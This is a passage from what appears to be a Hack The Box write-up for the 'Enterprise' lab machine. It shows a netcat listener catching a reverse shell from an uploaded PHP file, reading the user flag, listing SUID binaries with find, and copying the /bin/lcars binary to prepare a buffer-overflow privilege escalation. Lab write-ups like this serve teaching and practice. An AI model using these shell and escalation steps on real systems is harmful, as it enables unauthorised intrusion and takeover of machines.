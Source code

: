 Visiting `https://enterprise.htb/files/phprev.php` gives a shell:
```bash
$ rlwrap nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.61 49542
Linux enterprise.htb 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:57:00 up 1 day, 17:18,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1472): Inappropriate ioctl for device
bash: no job control in this shell
www-data@enterprise:/$
```

And I see only one user in home directory `jeanlucpicard`, also I can read the user flag:
```bash
www-data@enterprise:/home/jeanlucpicard$ cat user.txt
08552d48aa6d6d9c05dd67f1b4ba8747
```

# Privesc via BOF
Enumerating for SUID files gives ``/bin/lcars`` binary. Which is also serving on a higher port.
```bash
$ find / -type f -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/at
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/bin/umount
/bin/su
/bin/ping
/bin/ntfs-3g
/bin/mount
/bin/lcars
/bin/fusermount
```

I transferred lcars binary to my box.
Checking for the platform for the binary:
```bash
$ file lcars
lcars: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=88410652745b0a94421ce22ea4278a8eaea8db57, not stripped
```
